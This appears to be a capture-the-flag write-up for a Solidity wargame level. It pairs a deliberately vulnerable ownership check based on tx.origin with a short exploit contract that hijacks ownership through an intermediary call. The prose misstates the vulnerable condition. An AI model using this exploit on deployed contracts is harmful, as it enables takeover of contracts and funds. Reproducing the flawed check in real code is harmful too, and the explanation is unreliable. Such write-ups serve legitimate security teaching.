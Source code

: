 # Telephone

### Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

# Solution
Use remix to deploy another contract that calls the changeOwner() function. This function will update the owner to the current sender as long as that address does not match the owner of the original deployed contract.

### Code Solution
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    address currentSender;
    address hackedContract = 0x2cf987560a418C225056bd618eBeC5aac64851B5;
    
    constructor() {
        currentSender = msg.sender;
    }

    function hackTelephone() public {
        ITelephone(hackedContract).changeOwner(currentSender);
    }
}
```

# What I learned
1. Do not use information from the transaction to update owner. Even adding something like a require() before can assist in more security.

